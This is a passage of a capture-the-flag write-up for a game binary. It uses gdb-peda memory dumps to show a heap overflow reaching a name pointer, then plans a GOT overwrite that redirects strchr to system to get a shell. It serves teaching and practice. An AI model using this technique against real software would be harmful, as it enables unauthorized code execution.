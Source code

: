 ```
hswpzlqn_waqzwwetnelicrwzsppkioyjizqdcghpakipxbejxfupbbcbnorghklkabxsq_oly_jxsbnypchie_oifjidtpkgbho
High score! change name?
y
1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```

and once we reach the breakpoint:
```
Breakpoint 1, 0x0000000000400ed0 in ?? ()
gdb-peda$ find 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Searching for '1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111' in: None ranges
Found 2 results, display max 2 items:
[heap] : 0x603010 ('1' <repeats 100 times>)
[heap] : 0x603590 ('1' <repeats 100 times>)
gdb-peda$ x/32x 0x603010 
0x603010:	0x31313131	0x31313131	0x31313131	0x31313131
0x603020:	0x31313131	0x31313131	0x31313131	0x31313131
0x603030:	0x31313131	0x31313131	0x31313131	0x31313131
0x603040:	0x31313131	0x31313131	0x31313131	0x31313131
0x603050:	0x31313131	0x31313131	0x31313131	0x31313131
0x603060:	0x31313131	0x31313131	0x31313131	0x31313131
0x603070:	0x31313131	0x00000000	0x00000091	0x00000000
0x603080:	0x00000320	0x00000065	0x00603010	0x00000000
gdb-peda$ x/16g 0x603010 
0x603010:	0x3131313131313131	0x3131313131313131
0x603020:	0x3131313131313131	0x3131313131313131
0x603030:	0x3131313131313131	0x3131313131313131
0x603040:	0x3131313131313131	0x3131313131313131
0x603050:	0x3131313131313131	0x3131313131313131
0x603060:	0x3131313131313131	0x3131313131313131
0x603070:	0x0000000031313131	0x0000000000000091
0x603080:	0x0000006500000320	0x0000000000603010
gdb-peda$ x/g 0x603088
0x603088:	0x0000000000603010
```

So we can see our name is stored at 0x603010. We can also see that the pointer to it is stored at 0x603088, which we can overwrite with our overflow. So we know that with our overflow we can overwrite the pointer for the player's name. This is useful since if we overwrite the pointer with a different address, we can write to that address. Since we know that this elf doesn't have full RELRO, we can write to the GOT table, which will essentially allow us to rewrite the address of a function like `system` over one that is called like `strchr`. That way when `strchr` is called, it will really call system.  

As for the function we will want to overwrite, `strchr` seems like a good canidate. This is because we control the argument that is passed to it, so passing `/bin/sh` to it should be easy. In addition to that the only other time it's called is when the game starts so it shouldn't crash the binary. Now let's find the address of the strchr function in the got table.
